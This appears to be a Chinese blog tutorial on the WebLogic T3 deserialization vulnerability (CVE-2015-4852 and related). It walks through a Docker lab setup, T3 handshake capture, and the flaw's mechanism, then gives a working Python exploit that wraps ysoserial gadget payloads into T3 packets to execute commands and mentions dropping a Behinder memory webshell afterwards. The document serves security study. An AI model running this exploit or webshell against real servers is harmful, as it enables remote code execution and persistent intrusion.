







# 测试环境搭建

先搭建个测试环境后面wireshark抓包分析用

可以用qax大哥的Weblogic环境搭建工具

 https://github.com/QAX-A-Team/WeblogicEnvironment

JDK安装包下载地址：https://www.oracle.com/technetwork/java/javase/archive-139210.html

Weblogic安装包下载地址：https://www.oracle.com/technetwork/middleware/weblogic/downloads/wls-for-dev-1703574.html

先把项目拉取下来，然后把jdk和weblogic的对应版本下载到项目的`jdks/`和`weblogics/`目录下，我这里选择的是8u211和Weblogic12.1.4

下载完成后的目录是这样的



回到根目录，执行Docker构建镜像命令

```bash
docker build --build-arg JDK_PKG=<YOUR-JDK-PACKAGE-FILE-NAME> --build-arg WEBLOGIC_JAR=<YOUR-WEBLOGIC-PACKAGE-FILE-NAME>  -t <DOCKER-IMAGE-NAME> .

对应我这里就是
docker build --build-arg JDK_PKG=jdk-8u211-linux-x64.tar.gz --build-arg WEBLOGIC_JAR=fmw_12.2.1.4.0_wls_lite_generic.jar  -t weblogic12014jdk8u211 .
```

构建过程中出现了几个错误，估计是项目过时了有些地方需要改，直接让ai处理就行了

构建好后启动镜像

```bash
docker run -d -p 7001:7001 -p 8453:8453 -p 5556:5556 --name weblogic12014jdk8u211 weblogic12014jdk8u211
```

运行后可访问`http://[vps_ip]:7001/console/login/LoginForm.jsp`登录到Weblogic Server管理控制台，默认用户名为`weblogic`,默认密码为`qaxateam01`



# 前置知识

WebLogic 是 Oracle 的一套 Java 企业级应用服务器，相比于Tomcat，WebLogic更适用于偏大型的企业场景，而且其功能更完整。

## WebLogic T3协议

WebLogic T3其实是WebLogic中独有的协议，在java rmi中，默认rmi使用的是jrmp协议，但是在Weblogic中的RMI通信是使用T3协议实现的

在T3协议中协议协商的协商阶段，会发送一个请求包头（handshake）用来表明这是一个T3协议，它负责定义数据包的基本结构和传输协议的版本信息。

例如会发送以下内容给weblogic服务器

```bash
t3 12.2.3
AS:255
HL:19
nMS:10000000
```

### 抓包分析

在启动了WebLogic的vps上启动抓包

```bash
tcpdump -i eth0 port 7001 -w /tmp/capture.pcap
```

此时我们写个发送请求的脚本

```python
import socket

handshake = "t3 12.2.1\nAS:255\nHL:19\nMS:10000000\n\n"
ip = "156.239.238.130"
port = 7001

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(3)

try:
    sock.connect((ip, port))
    sock.sendall(handshake.encode("ascii"))
    data = sock.recv(1024)
    print("recv:", repr(data))
except Exception as e:
    print("error:", e)
finally:
    sock.close()

```

运行脚本后关闭抓包，把生成的pcap文件放wireshark看看



### T3响应头内容

可以看到，在发送请求后，服务器会返回一个响应，内容如下

```bash
HELO:12.2.1.4.0.false
AS:2048
HL:19
MS:10000000
PN:DOMAIN
```

HELO 后面的内容则是weblogic服务器的 Weblogic 版本号，也就是说，在发送正确的请求包头后，服务端会进行一个返回 Weblogic 的版本号。

我这里没有带请求主体，可以参考花师傅的图



### **Weblogic 请求主体**

请求主体，也就是发送的数据，这些数据分为七部分内容



第一非 Java 序列化数据，的前4bytes标识了本次请求的数据长度，然后直到遇到`aced 0005`序列化数据的标识之前，这部分内容被称为PeerInfo。

在 `aced 0005` 之后的内容便是序列化的数据，也就是说，我们只要在这里塞入可利用的恶意序列化数据，就可以打出反序列化的效果

# 漏洞原理

由于T3协议就是用于Java rmi的，那么也就存在远程对象方法的调用，也就存在序列化和反序列化的操作，本质上说，T3反序列化漏洞和RMI的反序列化几乎是一致的

T3协议的利用最早可以追溯到2015的CVE-2015-4852，漏洞存在于Commons-Collections这个库的CC链1的利用。到后来的CVE-2016-0638和CVE-2016-3510都也很类似。

到17年之后的漏洞开始通过构造JRMP服务器监听的方法反向触发，比如第一个CVE-2017-3248，到后来的CVE-2018-2628它对上一个的绕过，之后还有CVE-2020-2555，CVE-2020-2883等漏洞。这些的话就后面再单独写文章出来讲吧

# 影响版本

Oracle WebLogic Server 10.3.6.0, 12.1.3.0, 12.2.1.2 and 12.2.1.3。

# EXP编写

基本思路都是替换掉WebLogic T3协议流中aced 0005部分为恶意的序列化数据，可以结合ysoserial生成的payload转化成T3协议中的数据格式

```python
import socket
import sys
import struct
import re
import subprocess
import binascii

def get_payload1(gadget, command):
    JAR_FILE = './ysoserial.jar'
    popen = subprocess.Popen(['java', '-jar', JAR_FILE, gadget, command], stdout=subprocess.PIPE)
    return popen.stdout.read()

def get_payload2(path):
    with open(path, "rb") as f:
        return f.read()

def exp(host, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, port))

    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n".encode()
    sock.sendall(handshake)
    data = sock.recv(1024)
    pattern = re.compile(r"HELO:(.*).false")
    version = re.findall(pattern, data.decode())
    if len(version) == 0:
        print("Not Weblogic")
        return

    print("Weblogic {}".format(version[0]))
    data_len = binascii.a2b_hex(b"00000000") #数据包长度，先占位，后面会根据实际情况重新
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006") #t3协议头
    flag = binascii.a2b_hex(b"fe010000") #反序列化数据标志
    payload = data_len + t3header + flag + payload
    payload = struct.pack('>I', len(payload)) + payload[4:] #重新计算数据包长度
    sock.send(payload)

if __name__ == "__main__":
    host = "you-vps-ip"
    port = 7001
    gadget = "Jdk7u21" #CommonsCollections1 Jdk7u21
    command = "touch /tmp/success"

    payload = get_payload1(gadget, command)
    exp(host, port, payload)
```

当然也可以直接用工具 https://github.com/KimJun1010/WeblogicTool/releases/tag/v1.3



测出漏洞后可以直接打behinder内存马



# 代码调试

参考文章：

https://y4er.com/posts/weblogic-cve-2015-4852/

https://nlrvana.github.io/cve-2015-4852-weblogic-t3-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/

https://www.cnblogs.com/smileleooo/p/18199279
